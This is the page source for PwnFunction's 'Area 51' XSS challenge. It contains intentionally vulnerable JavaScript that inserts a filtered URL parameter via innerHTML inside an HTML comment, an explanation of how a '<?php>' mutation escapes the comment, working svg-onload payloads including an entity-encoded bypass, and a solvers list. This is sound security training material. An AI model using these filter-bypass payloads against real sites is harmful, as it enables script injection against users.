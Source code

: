 ```yaml
---
title: "XSS Game - Area 51 | PwnFunction"
header: "Area 51"
challengeUrl: "https://sandbox.pwnfunction.com/challenges/area-51.html"
date: 2020-01-19T14:59:07+05:30
draft: false
type: challenge
difficulty: Easy
solvers: 23
---
```


<!-- Rules -->
{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
<li>Unintended solution? DM me <a target="_blank"
                            href="https://twitter.com/messages/compose?recipient_id=1084132461133451264"
                            class="function">@PwnFunction</a>.
                    </li>
{{</ rules >}}

<!-- Challenge Code -->
{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;div id=&#x22;pwnme&#x22;&#x3E;&#x3C;/div&#x3E;

&#x3C;script&#x3E;
    var input = (new URL(location).searchParams.get(&#x27;debug&#x27;) || &#x27;&#x27;).replace(/[\!\-\/\#\&#x26;\;\%]/g, &#x27;_&#x27;);
    var template = document.createElement(&#x27;template&#x27;);
    template.innerHTML = input;
    pwnme.innerHTML = &#x22;&#x3C;!-- &#x3C;p&#x3E; DEBUG: &#x22; + template.outerHTML + &#x22; &#x3C;/p&#x3E; --&#x3E;&#x22;;
&#x3C;/script&#x3E;</code>{{< /code >}}

<!-- Solution Modal -->
{{< solution >}}
<h3>Intended</h3>
<p>The value of the GET parameter <code>debug</code> ends up inside a comment which is then inserted
    to the DOM via <code>innerHTML</code>. The problem is that, there's a filter, which removes
    <code>!-/#&;%</code> characters. But <code>&lt;php&gt;</code> it mutates into
    <code>&lt;!--php--&gt;</code>, because browsers don't like to render PHP source if sent
    accidentally. This mutation creates new comment, which will be nested inside the already
    existing one. However there's no concept of nested comments in HTML, hence the new comment
    breaks the old comment and lets us execute Javascript. <a
        href="https://www.w3.org/TR/html52/syntax.html#tag-open-state" target="_blank"
        class="function">Read more</a></p>

<pre class="solution-code-block"><code class="language-markup">&lt;?php&gt;&lt;svg onload=alert(1337)&gt;

&lt;!-- Also works because, &lt;?&gt; is short for &lt;php&gt; --&gt;
&lt;?&gt;&lt;svg onload=alert(1337)&gt;</code></pre>

<br>
<h3>Unintended (<a href="https://twitter.com/@terjanq" target="_blank">@terjanq</a>)</h3>
<p>Initially, I had forgotton about blocking HTML entity characters like <code>&#;</code>, So
    @terjanq was able to solve it. However this was fixed soon.</p>
<pre
    class="solution-code-block"><code class="language-markup">&#x3C;svg&#x3E;&#x3C;b title=&#x22;&#x26;#x2D;&#x26;#x2D;&#x26;#x3E;&#x26;#x3C;&#x26;#x73;&#x26;#x76;&#x26;#x67;&#x26;#x2F;&#x26;#x6F;&#x26;#x6E;&#x26;#x6C;&#x26;#x6F;&#x26;#x61;&#x26;#x64;&#x26;#x3D;&#x26;#x61;&#x26;#x6C;&#x26;#x65;&#x26;#x72;&#x26;#x74;&#x26;#x28;&#x26;#x29;&#x26;#x3E;&#x22;&#x3E;aaa</code></pre>
{{< /solution >}}

<!-- Solvers -->
{{< solvers >}}
<tr>
    <th scope="row">1</th>
    <td><a href="https://twitter.com/@terjanq" target="_blank" class="function">@terjanq</a>
    </td>
    <td>Unintended(fixed) & Intended</td>
</tr>
<tr>
    <th scope="row">2</th>
    <td><a href="https://twitter.com/@SecurityMB" target="_blank"
            class="function">@SecurityMB</a></td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">3</th>
    <td><a href="https://twitter.com/@k33r0k" target="_blank" class="function">@k33r0k</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">4</th>
    <td><a href="https://twitter.com/@bscarvell" target="_blank"
            class="function">@bscarvell</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">5</th>
    <td><a href="https://twitter.com/@bitcoinctf" target="_blank"
            class="function">@bitcoinctf</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">6</th>
    <td><a href="https://twitter.com/@eissen5c" target="_blank"
            class="function">@eissen5c</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">7</th>
    <td><a href="https://twitter.com/@swornim00" target="_blank"
            class="function">@swornim00</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">8</th>
    <td><a href="https://twitter.com/@StructHack" target="_blank"
            class="function">@StructHack</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">9</th>
    <td><a href="https://twitter.com/@DimitarRusev8" target="_blank"
            class="function">@DimitarRusev8</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">10</th>
    <td><a href="https://twitter.com/@justinsteven" target="_blank"
            class="function">@justinsteven</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">11</th>
    <td><a href="https://twitter.com/@garethheyes" target="_blank"
            class="function">@garethheyes</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">12</th>
    <td><a href="https://twitter.com/@raadfhaddad" target="_blank"
            class="function">@raadfhaddad</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">13</th>
    <td><a href="https://twitter.com/@d0ug4n" target="_blank" class="function">@d0ug4n</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">14</th>
    <td><a href="https://twitter.com/@l0wb10w" target="_blank" class="function">@l0wb10w</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">15</th>
    <td><a href="https://twitter.com/@vincd8" target="_blank" class="function">@vincd8</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">16</th>
    <td><a href="https://twitter.com/@0xA1F1E" target="_blank" class="function">@0xA1F1E</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">17</th>
    <td><a href="https://twitter.com/@gustavorobertux" target="_blank"
            class="function">@gustavorobertux</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">18</th>
    <td><a href="https://twitter.com/@zer0ttl" target="_blank" class="function">@zer0ttl</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">19</th>
    <td><a href="https://twitter.com/@_nunohumberto" target="_blank"
            class="function">@_nunohumberto</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">20</th>
    <td><a href="https://twitter.com/@simps0n" target="_blank" class="function">@simps0n</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">21</th>
    <td><a href="https://twitter.com/@vdvcoder" target="_blank"
            class="function">@vdvcoder</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">22</th>
    <td><a href="https://twitter.com/@joaogouveia143" target="_blank"
            class="function">@joaogouveia143</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">23</th>
    <td><a href="https://twitter.com/@insertScript" target="_blank"
            class="function">@insertScript</a>
    </td>
    <td>Intended</td>
</tr>
{{< /solvers >}}